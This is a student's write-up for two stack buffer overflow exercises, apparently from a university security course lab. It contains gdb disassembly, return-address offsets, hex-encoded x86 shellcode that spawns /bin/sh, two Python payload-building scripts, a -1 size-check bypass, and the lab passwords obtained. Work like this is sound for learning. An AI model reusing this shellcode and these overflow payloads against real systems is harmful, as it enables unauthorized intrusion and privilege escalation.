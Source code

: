 ## 1

The makefile is interesting and I think the professor tried his best to
make the program unsafe.
Just run gdb and see what happens:

```
invoke -d dejavu
break deja_vu
run
x/24i $pc
#- ---------------
=> 0xb7ffc4ab <deja_vu+6>:	sub    $0xc,%esp
   0xb7ffc4ae <deja_vu+9>:	lea    -0x10(%ebp),%eax
   0xb7ffc4b1 <deja_vu+12>:	push   %eax
   0xb7ffc4b2 <deja_vu+13>:	call   0xb7ffc75e <gets>
   0xb7ffc4b7 <deja_vu+18>:	add    $0x10,%esp
   0xb7ffc4ba <deja_vu+21>:	nop
   0xb7ffc4bb <deja_vu+22>:	leave  
   0xb7ffc4bc <deja_vu+23>:	ret    
   0xb7ffc4bd <main>:	lea    0x4(%esp),%ecx
   0xb7ffc4c1 <main+4>:	and    $0xfffffff0,%esp
   0xb7ffc4c4 <main+7>:	pushl  -0x4(%ecx)
   0xb7ffc4c7 <main+10>:	push   %ebp
   0xb7ffc4c8 <main+11>:	mov    %esp,%ebp
   0xb7ffc4ca <main+13>:	push   %ecx
   0xb7ffc4cb <main+14>:	sub    $0x4,%esp
   0xb7ffc4ce <main+17>:	call   0xb7ffc4a5 <deja_vu>
   0xb7ffc4d3 <main+22>:	mov    $0x0,%eax
   0xb7ffc4d8 <main+27>:	add    $0x4,%esp
   0xb7ffc4db <main+30>:	pop    %ecx
   0xb7ffc4dc <main+31>:	pop    %ebp
   0xb7ffc4dd <main+32>:	lea    -0x4(%ecx),%esp
   0xb7ffc4e0 <main+35>:	ret    
   0xb7ffc4e1 <dummy>:	ret    
   0xb7ffc4e2 <dummy1>:	ret    
```

Then we go to the call instruction.

```
break *0xb7ffc4b2
c
```

I saw that eax is 0xbffffab8. The return address should original be 0xb7ffc4d3 (in main), and I can easily find it at 0xbffffacc. So I should put payload at 0xbffffad0 and input `0123456789abcdef0123456789abcdef01234567 + bffffa40 + payload`, where paylaod is `6a3158cd8089c389c16a4658cd8031c050682f2f7368682f62696e545b505389e131d2b00bcd800a`. After fixing byte sequence problem with python, the input.txt is ready.

Now I can see 
```
pwnable:~$ ./exploit 
dumb-shell $ id
uid=1002(smith) gid=1001(vsftpd) groups=1001(vsftpd)
dumb-shell $ cat README
You have to let it all go. Fear, doubt, and disbelief. Free your mind.

Next username: smith
Next password: 37ZFBrAPm8
```

My code is attached below
```
#!/usr/bin/python3

def fuck8(txt):
    assert(len(txt) == 8)
    return txt[6:8] + txt[4:6] + txt[2:4] + txt[0:2]

def revert(txt):
    assert(len(txt) % 8 == 0)
    res = ""
    for i in range(int(len(txt) / 8)):
        res += fuck8(txt[i*8:(i+1)*8])
    return res


fill = "0123456789abcdef0123456789abcdef01234567"
#cs161-ace# raddr = "bffffa40"
#cs161-atw# raddr = "bffffad0"
raddr = "bffffad0"
#shellcode = "\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"
shellcode = "6a3158cd8089c389c16a4658cd8031c050682f2f7368682f62696e545b505389e131d2b00bcd800a"
########################################################################################### <- append an endline (0x0a, \n)

payload = revert(fill) + revert(raddr) + (shellcode)
#print(payload)

import binascii

b = binascii.unhexlify(payload)
with open('/dev/fd/1','wb') as f:
    f.write(b)
```

## 2

Just do as what I did in problem 1. I can see the return address is 0x00400775, stored at &msg+128+20.
Because the buffer is large enough, I'll put payload here. &msg is 0xbffffa18, so I must change 0x00400775
to 0xbffffa18.

Oh I didn't tell you how should I bypass the `size` limit. Just put a `-1` and enjoy your day.

Now I can see

```
pwnable:~$ ./exploit 
j1X̀�É�jFX̀1�Ph//shh/binT[PS��1Ұ

�
/home/smith $ id
uid=1003(brown) gid=1002(smith) groups=1002(smith)
/home/smith $ cat README
Welcome to the real world.

Next username: brown
Next password: mXFLFR5C62
```

My code is attached below.
```
#!/usr/bin/python3

def fuck8(txt):
    assert(len(txt) == 8)
    return txt[6:8] + txt[4:6] + txt[2:4] + txt[0:2]

def revert(txt):
    assert(len(txt) % 8 == 0)
    res = ""
    for i in range(int(len(txt) / 8)):
        res += fuck8(txt[i*8:(i+1)*8])
    return res


raddr = "bffffa18"
#shellcode = "\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"
shellcode = "6a3158cd8089c389c16a4658cd8031c050682f2f7368682f62696e545b505389e131d2b00bcd800a"

length_to_fill = 20 + 128 - int(len(shellcode)/2)
fill = "01" * length_to_fill

int8_neg1 = "ff"

payload = int8_neg1 + (shellcode) + fill + revert(raddr)
#print(payload)

import binascii

b = binascii.unhexlify(payload)
with open('/dev/fd/1','wb') as f:
    f.write(b)
```
